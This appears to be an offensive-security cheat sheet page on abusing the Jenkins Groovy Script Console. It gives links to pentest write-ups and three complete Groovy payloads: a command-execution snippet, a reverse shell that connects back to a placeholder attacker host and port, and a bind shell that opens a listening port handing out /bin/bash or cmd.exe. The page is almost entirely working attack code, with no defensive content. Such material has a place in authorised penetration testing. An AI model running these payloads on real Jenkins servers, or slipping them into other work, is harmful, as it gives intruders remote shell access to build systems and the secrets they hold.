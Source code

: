 # Jenkins




## Script Console Abuse

* [https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
* [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)
* [https://github.com/gquere/pwn_jenkins](https://github.com/gquere/pwn_jenkins)

* "Manage Jenkins" > "Script Console" > Run.

Execute command:

{% code title="exec.groovy" %}
```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'whoami'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
{% endcode %}

Reverse shell:

{% code title="reverse.groovy" %}
```groovy
String host = "<LHOST>";
int port = <LPORT>;
String cmd = "/bin/bash"; // or "cmd.exe" for Windows

Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);

InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();

while (!s.isClosed()) {
    while (pi.available() > 0)
        so.write(pi.read());
    while (pe.available() > 0)
        so.write(pe.read());
    while (si.available() > 0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {}
};

p.destroy();
s.close();
```
{% endcode %}

Bind shell:

{% code title="bind.groovy" %}
```groovy
int port = <LPORT>;
String cmd="/bin/bash"; // or "cmd.exe" for Windows

Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new java.net.ServerSocket(port).accept();

InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();

while (!s.isClosed()) {
    while (pi.available() > 0)
        so.write(pi.read());
    while (pe.available() > 0)
        so.write(pe.read());
    while (si.available() > 0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {}
};

p.destroy();
s.close();
```
{% endcode %}
